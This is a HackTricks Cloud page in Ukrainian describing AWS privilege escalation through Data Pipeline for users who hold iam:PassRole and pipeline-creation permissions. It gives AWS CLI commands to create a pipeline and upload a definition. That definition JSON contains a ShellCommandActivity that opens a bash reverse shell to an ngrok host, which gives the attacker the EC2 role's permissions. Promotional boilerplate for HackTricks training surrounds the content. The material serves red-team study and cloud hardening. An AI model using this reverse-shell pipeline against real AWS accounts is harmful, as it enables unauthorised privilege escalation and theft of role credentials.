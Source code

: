 # AWS - Datapipeline Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## datapipeline

Для отримання додаткової інформації про datapipeline перегляньте:

{% content-ref url="../aws-services/aws-datapipeline-codepipeline-codebuild-and-codecommit.md" %}
[aws-datapipeline-codepipeline-codebuild-and-codecommit.md](../aws-services/aws-datapipeline-codepipeline-codebuild-and-codecommit.md)
{% endcontent-ref %}

### `iam:PassRole`, `datapipeline:CreatePipeline`, `datapipeline:PutPipelineDefinition`, `datapipeline:ActivatePipeline`

Користувачі з цими **дозволами можуть підвищити привілеї, створивши Data Pipeline** для виконання довільних команд, використовуючи **дозволи призначеної ролі:**
```bash
aws datapipeline create-pipeline --name my_pipeline --unique-id unique_string
```
Після створення конвеєра зловмисник оновлює його визначення, щоб вказати конкретні дії або створення ресурсів:
```json
{
"objects": [
{
"id" : "CreateDirectory",
"type" : "ShellCommandActivity",
"command" : "bash -c 'bash -i >& /dev/tcp/8.tcp.ngrok.io/13605 0>&1'",
"runsOn" : {"ref": "instance"}
},
{
"id": "Default",
"scheduleType": "ondemand",
"failureAndRerunMode": "CASCADE",
"name": "Default",
"role": "assumable_datapipeline",
"resourceRole": "assumable_datapipeline"
},
{
"id" : "instance",
"name" : "instance",
"type" : "Ec2Resource",
"actionOnTaskFailure" : "terminate",
"actionOnResourceFailure" : "retryAll",
"maximumRetries" : "1",
"instanceType" : "t2.micro",
"securityGroups" : ["default"],
"role" : "assumable_datapipeline",
"resourceRole" : "assumable_ec2_profile_instance"
}]
}
```
{% hint style="info" %}
Зверніть увагу, що **роль** в **рядках 14, 15 та 27** повинна бути роллю, **яку може прийняти datapipeline.amazonaws.com**, а роль в **рядку 28** повинна бути **роллю, яку може прийняти ec2.amazonaws.com з профілем EC2**.

Крім того, EC2 інстанс матиме доступ лише до ролі, яку може прийняти EC2 інстанс (тому ви можете вкрасти лише цю).
{% endhint %}
```bash
aws datapipeline put-pipeline-definition --pipeline-id <pipeline-id> \
--pipeline-definition file:///pipeline/definition.json
```
Файл **визначення конвеєра, створений атакуючим, містить директиви для виконання команд** або створення ресурсів через AWS API, використовуючи дозволи ролі Data Pipeline для потенційного отримання додаткових привілеїв.

**Потенційний вплив:** Пряме підвищення привілеїв до ролі служби ec2, що вказана.

## Посилання

* [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
